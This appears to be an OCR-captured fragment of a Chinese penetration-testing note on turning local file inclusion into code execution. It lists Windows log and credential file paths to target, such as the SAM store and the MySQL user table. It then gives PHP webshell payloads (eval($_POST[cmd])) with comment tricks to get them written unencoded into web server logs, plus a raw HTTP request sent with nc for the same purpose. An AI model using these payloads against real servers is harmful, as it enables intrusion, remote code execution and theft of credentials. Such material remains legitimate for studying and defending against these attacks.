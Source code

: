```
# 配置文件默认目录
C:\Windows\System32\inetsrv\config\applicationHost.config

C:\apache\logs\access.log
C:\Program Files\Apache Group\Apache\logs\access.log
C:\program files\wamp\apache2\logs
C:\wamp\logs
C:\xampp\apache\logs\error.log

C:\apache\logs\error.log
C:\Program Files\Apache Group\Apache\logs\error.log
C:\wamp\apache2\logs
C:\xampp\apache\logs\access.log

# 敏感文件
Windows：
  C:\boot.ini  //查看系统版本
  C:\Windows\System32\inetsrv\MetaBase.xml  //IIS配置文件
  C:\Windows\repair\sam  //存储系统初次安装的密码
  C:\Program Files\mysql\my.ini  //Mysql配置
  C:\Program Files\mysql\data\mysql\user.MYD  //Mysql root
  C:\Windows\php.ini  //php配置信息
  C:\Windows\my.ini  //Mysql配置信息
```

* 日记包含高级利用

wwoyun--济南大学主站本地文件包含导致代码执行

限制

> 类似 `http://www.exp.com/index<?php eval($_POST[cmd]);?>.php`

这样的提交，某些WEB服务器将会把空格做HTTP编码转成%20写入web日志,如果PHP包含`<?php%20eval($_POST[cmd]);?>`这样的语句肯定是不会成功的，所以我们必须把空格真正的写入WEB日志.

突破

```
<?php/**/eval($_POST[cmd]);/**/?>
```

* short_open_tag=on

在short_open_tag=on的情况下支持`<?/**/eval($_POST[cmd]);/**/?>`这样的短语句

* WEB服务器一个奇怪的特性

如果没有返回响应而WEB服务器又接受了请求，那么请求的内容将原封不动的写入WEB日志，不会进行HTTP编码.

这样我们想个办法一直与WEB服务器保持TCP连接，不让WEB服务器处理响应返回，然后再由客户端的我们中断这次TCP连接，说得这么复杂其实很容易实现.只要在HTTP请求的数据包中去掉Connection HTTP标头值。

利用 `NC` 伪造没有Connection HTTP标头的请求包：

```
GET /index< >.php HTTP/1.1
Accept: */*
Accept-Language: zh-cn
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727)
Host: 192.168.3.44
```


[5]: http://php.net/manual/zh/features.file-upload.post-method.php